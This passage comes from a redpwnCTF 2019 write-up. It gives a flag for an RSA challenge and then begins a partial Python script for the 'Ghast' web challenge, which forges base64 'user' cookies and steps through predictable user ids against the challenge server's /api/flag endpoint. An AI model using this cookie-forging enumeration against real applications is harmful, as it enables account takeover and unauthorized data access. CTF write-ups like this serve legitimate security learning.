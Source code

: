 In order to get the flag, the script needs to get the output of about 1024 numbers, so it might take a while until it finishes, depending on the server’s speed.

<div>
<center><img src="/images/redpwn_ctf_2019_writeup/image-13.png"></center>
</div>

Flag: flag{y0u\_s0lved\_th3\_l3ast\_s1gn1f1c1nt_RSA!-1123}

## Ghast – Web {#web-1}

<div>
<center><img src="/images/redpwn_ctf_2019_writeup/image-14.png"></center>
</div>

I honestly don’t know if this is the intended solution, but it worked for me. The key is to see that the makeId() function doesn’t make a random id:

<div>
<center><img src="/images/redpwn_ctf_2019_writeup/image-15.png"></center>
</div>

This means that we can call /api/flag with incrementing user ids until we get the flag:

{% highlight python %}
import requests
import base64

url = "http://chall.2019.redpwn.net:8008/api/flag"

def tryUserId(id):
	global url
	c = base64.b64encode("ghast:{}".format(id).encode()).decode()
	r = requests.get(url, cookies = {"user": c})
	if "your name: " in r.text:
		return False
	if "only the admin can wield the flag" in r.text:
		return False
